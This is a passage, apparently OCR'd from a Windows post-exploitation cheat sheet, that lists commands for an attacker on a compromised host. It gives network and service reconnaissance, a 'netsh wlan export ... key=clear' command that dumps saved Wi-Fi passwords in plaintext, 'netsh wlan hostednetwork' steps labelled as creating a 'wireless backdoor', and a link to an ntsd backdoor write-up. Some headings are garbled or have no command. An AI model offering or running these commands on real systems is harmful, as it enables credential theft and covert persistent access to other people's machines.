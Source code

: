 arp -a

#### print the machine’s routing table. This can be good for finding other networks and static routes that have been put in place

route print

browstat (Not working on XP)

#### show all saved wireless profiles. You may then export the info for those profiles with the command below

netsh wlan show profiles

#### exports a user wifi profile with the password in plaintext to an xml file in the current working directory

netsh wlan export profile folder=. key=clear

#### start or stop a wireless backdoor on a windows 7 pc

netsh wlan [start|stop] hostednetwork

#### Complete hosted network setup for creating a wireless backdoor on win 7

netsh wlan set hostednetwork ssid=*ssid* key=*passphrase* keyUsage=persistent|temporary


#### enables or disables hosted network service

netsh wlan set hostednetwork mode=[allow|disallow]

#### wmic ntdomain listRetrieve information about Domain and Domain Controller

http://www.securityaegis.com/ntsd-backdoor/


#### Extremely verbose output of GPO (Group policy) settings as applied to the current system and user

gpresult /z

#### sc

sc qc

sc query

sc queryex

#### Print the contents of the Windows hosts file

type %WINDIR%\System32\drivers\etc\hosts

#### print a directory listing of the Program Files directory.
